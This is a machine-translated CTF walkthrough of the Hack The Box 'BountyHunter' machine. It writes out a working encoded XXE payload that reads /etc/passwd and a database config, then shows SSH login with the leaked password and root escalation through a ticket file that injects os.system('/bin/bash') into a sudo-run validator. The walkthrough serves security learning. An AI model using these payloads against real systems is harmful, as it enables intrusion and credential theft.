# 破解盒子——赏金猎人演练

> 原文：<https://infosecwriteups.com/hack-the-box-bountyhunter-walkthrough-fb771d4f8c0?source=collection_archive---------3----------------------->

大家好，希望你们都好。我们将在《黑盒子》中看到赏金猎人机器的演练。



首先，我们从 Nmap 扫描开始。

`*nmap -sC -sV 10.10.11.100*`



Nmap 扫描

现在，只有一个 web 应用在运行。该网络应用程序有一个门户，其中包含 CVE 记录的一些详细信息。



网络门户

所以，现在我们将寻找 XXE 的弱点。因为在查看 burp 请求时，数据是以 XML 格式发送的。现在，我们将在 cyberchef 中使用 URL 编码和 Base64 对有效负载进行编码，有效负载的结果是

`*PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9L2V0Yy9wYXNzd2QiPl0gPiAKCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4meHhlOzwvdGl0bGU%2BCgkJPGN3ZT50ZXN0PC9jd2U%2BCgkJPGN2c3M%2BdGVzdDwvY3Zzcz4KCQk8cmV3YXJkPnRlc3Q8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D*`

现在插入这个。我们在 base64 中得到结果，解密时显示如下的`*etc/passwd*`文件，



`source: base64decode.org`

现在，我们将尝试使用 cyberchef 生成的有效负载获取 db 文件的内容。



资料来源:网络论坛

之后，插入这个有效载荷，我们将获得 db.php 文件的内容。



`source: base64decode.org`

在这里，我们可以得到密码。现在，我们将尝试使用管理员用户的 SSH 登录，但是失败了，然后我们看到有一个名为 development 的用户。现在，我们将尝试登录开发



SSH 登录

是的，我们现在获得了用户标志，现在我们将尝试获得根标志。

通过尝试`*sudo -l*`，我们得到以下错误，



须岛一号

在这里，`*/usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py*`拥有 root 权限。因此，我们现在正在进行权限升级。通过阅读代码，我们知道每一次失败的尝试都会生成一张票。我们将尝试使用以下名为 root.md 的文件来获取 root

root.md 文件看起来像这样，

```
# Skytrain Inc
## Ticket to root
__Ticket Code:__
**102 + 10 == 112 and __import__(‘os’).system(‘/bin/bash’) == False
```



文件:root.md

现在，尝试运行`*ticketvalidator.py*`中的 root.md 文件。



根

现在，我们获得了根访问权限，我们将转到根目录以获取根标志。

跟我来:

> **insta gram**:[https://www.instagram.com/sudhakar_._m/](https://www.instagram.com/sudhakar_._m/)
> 
> **https://www.facebook.com/sudhakarmuthumani00**:[脸书](https://www.facebook.com/sudhakarmuthumani00)
> 
> **推特**:【https://twitter.com/Sudhakarmuthu04】T2
> 
> 领英:[https://www.linkedin.com/in/sudhakarmuthumani/](https://www.linkedin.com/in/sudhakarmuthumani/)